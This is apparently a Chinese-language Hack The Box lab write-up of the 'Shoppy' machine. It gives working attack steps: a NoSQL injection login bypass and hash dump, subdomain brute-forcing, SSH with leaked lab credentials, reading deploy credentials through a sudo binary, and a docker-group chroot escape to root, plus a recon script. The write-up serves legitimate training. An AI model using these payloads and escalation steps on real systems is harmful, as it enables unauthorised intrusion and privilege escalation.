 *Difficulty: Easy*

---

## 扫描

### 端口

```bash
nmap -v -n -Pn -sCV -oN Shoppy.nmap 10.10.11.180
```
只扫出22和80端口。


## 漏洞分析

### 80端口

将靶机域名加入hosts后访问。  
虽然感觉HTB的靶机域名应该都挺固定的，姑且写了个命令行，收集域名后加入hosts文件，看看以后能否通用：  
```bash
HTB_IP='10.10.11.180'; cat -e /etc/hosts && sudo sh -c "echo \"${HTB_IP}    $(curl -I ${HTB_IP} | grep -oP '(?<=Location: http://).*' | sed 's/\r//g')\"  >> /etc/hosts"; cat -e /etc/hosts
``` 

- 无robots  
- 网页源码无发现  
- 网站无特别功能

本来打算枚举一下目录，不过惯例试了一下 `/login` 可以。  
在登陆界面尝试了几个SQLi绕过未果。SQLi只会一点基础的……卡住  

*搜了一波WP原来这里是 [NoSQL](https://book.hacktricks.xyz/pentesting-web/nosql-injection#sql-mongo) ……*

`admin'||'1==1` 成功登入。

admin界面有搜索框，输入 `admin` 搜索有回显admin的密码。看上去感觉是MD5加密。  
在搜索框输入同样的 `NoSQLi`，成功回显所有用户（admin和josh）的账号密码。

放进[MD5解码网站](../tool-links.md#_2)试试。`josh` 用户可成功解码。

但是至此似乎没什么其他攻击路径了。

#### 子域枚举

由于是靶机所以只扫虚拟主机的子域

```bash
gobuster vhost -u shoppy.htb -w /usr/share/wordlists/amass/bitquark_subdomains_top100K.txt -t 500 --append-domain
```

扫出一个：`Found: mattermost.shoppy.htb Status: 200 [Size: 3122]`，将其也加入hosts。  
*最开始没加 `--append-domain` 啥都没扫出来。所以最好正式开扫之前加上 `-v` 小扫一下看看，否则都不知道自己扫的是啥容易错过突破口。*

#### 从子域突破

但是访问后是空白页面，试着刷新几次发现似乎有一闪而过的登陆界面。  
开burp拦截使其停在登录界面，输入刚破解的 `josh` 的账号密码，成功登入。


## foothold

是一个聊天工具的样子。有个带锁的频道十分引人注意。看了眼内容是让我们（josh）部署一个机器。还有账号密码：  

	username: jaeger
	password: Sh0ppyBest@pp!

SSH登陆成功。


## get user flag

```bash
jaeger@shoppy:~$ cat user.txt
```


## 横向移动

首先看看 `sudo -l`：  
```bash
jaeger@shoppy:~$ id
uid=1000(jaeger) gid=1000(jaeger) groups=1000(jaeger)


jaeger@shoppy:~$ sudo -l
Matching Defaults entries for jaeger on shoppy:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User jaeger may run the following commands on shoppy:
    (deploy) /home/deploy/password-manager


jaeger@shoppy:~$ ls -l /home/deploy/
total 28
-rw------- 1 deploy deploy    56 Jul 22 13:15 creds.txt
-rwxr--r-- 1 deploy deploy 18440 Jul 22 13:20 password-manager
-rw------- 1 deploy deploy   739 Feb  1  2022 password-manager.cpp
```

deploy家目录有creds.txt但是无法读取。  

看看sudo的那个命令是啥：  
`strings /home/deploy/password-manager`，注意到里面有段文字：`cat /home/deploy/creds.txt`  
似乎这个脚本可以读取creds.txt。尝试一下执行：  
```
jaeger@shoppy:~$ sudo -u deploy /home/deploy/password-manager
Welcome to Josh password manager!
Please enter your master password: Sh0ppyBest@pp!
Access denied! This incident will be reported !
```

但是不知道密码？？josh的那个不行，需要什么master password。迷茫……

*看了眼WP，竟然是用 `cat password-manager` 能发现有用的信息，服了。一直惯性觉得cat二进制文件没用每次都直接strings了……*

```bash
jaeger@shoppy:/home/deploy$ sudo -u deploy ./password-manager
Welcome to Josh password manager!
Please enter your master password: Sample
Access granted! Here is creds !
Deploy Creds :
username: deploy
password: Deploying@pp!
```

SSH成功登陆 `deploy` 用户。
```bash
$ id
uid=1001(deploy) gid=1001(deploy) groups=1001(deploy),998(docker)
```


## 提权

`deploy` 用户的这个 `998(docker)` 是什么情况，值得探究一下。  
通过[gtfobins](https://gtfobins.github.io/gtfobins/docker/)发现可以利用。运行下面命令后成功得到root shell：  
```bash
$ docker run -v /:/mnt --rm -it alpine chroot /mnt sh
# id
uid=0(root) gid=0(root) groups=0(root),1(daemon),2(bin),3(sys),4(adm),6(disk),10(uucp),11,20(dialout),26(tape),27(sudo)
```


## get root flag

```bash
# cd
# ls
root.txt
# cat root.txt
```


---

## 后记

原来是NoSQL...

说是多了个横向移动吧，其实和之前靶机比，从foothold开始获得的用户数量又没差。  
大概是因为这次是web打点时用了一个账户，后来用的又是两个普通用户的账户而没有应用账户吧。

以及以前一直觉得既然SSH能成功登陆，就已经知道自己登陆的是什么用户，那么 `id` 命令没啥意义。  
这次随手一打竟然能发现deploy用户属于docker组，从而发现突破口，也属实是运气了……


最后，  
联系[这个思路](../InformationGathering/summary.md#web_info_gathering)，感觉信息搜集可以弄一个简易脚本。以后试试直接用这个：

### HTB_easy_firstScaning
 
```bash
#!/usr/bin/bash
# -*- coding:utf-8 -*-

## This script is requires root privilege for running.
set -eu

HTB_IP=${1}
echo "[info] Starting scan..."

# --max-retries=0 maybe ok, but sometimes missing some ports. Default is 10.
ports=$(nmap -n -Pn -sS -p 1-10000 ${HTB_IP} --min-rate=5000 --max-retries=1 | grep ^[0-9] | cut -d / -f1 | tr '\n' ',' | sed s/,$//)
echo "[info] Opening port: ${ports}"

# Since nmap scanning is too time-consuming, let it run in background.
nohup nmap -v -n -Pn -sV -O -p ${ports} --script=vuln ${HTB_IP} > "${HTB_IP}.nmap" 2>&1 &

if [[ ${ports} =~ '80' ]];then
  HTB_DOMAIN=$(curl -I ${HTB_IP} | grep -oP '(?<=Location: http://).*' | tr -d '/\r')
  echo "[info] domain: ${HTB_DOMAIN}"

  if [[ ${HTB_DOMAIN} != '' ]];then
    # for backup
    cat -e /etc/hosts
    echo "-------- Backed up hosts --------"
    
    echo "${HTB_IP}    ${HTB_DOMAIN}" >> /etc/hosts
    
    cat -e /etc/hosts
    echo "-------- Modified hosts --------"

    echo "[info] Scanning subdomain..."
    gobuster vhost -u ${HTB_DOMAIN} -w /usr/share/wordlists/amass/bitquark_subdomains_top100K.txt -t 500 --append-domain -o "subdomains_${HTB_DOMAIN}.txt"
    echo "[info] End of subdomain scan..."
  fi
fi

ps -ef | grep 'nmap -v -n -Pn'
echo "[info] Please check nmap status with: ps -ef | grep 'nmap -v -n -Pn'"
```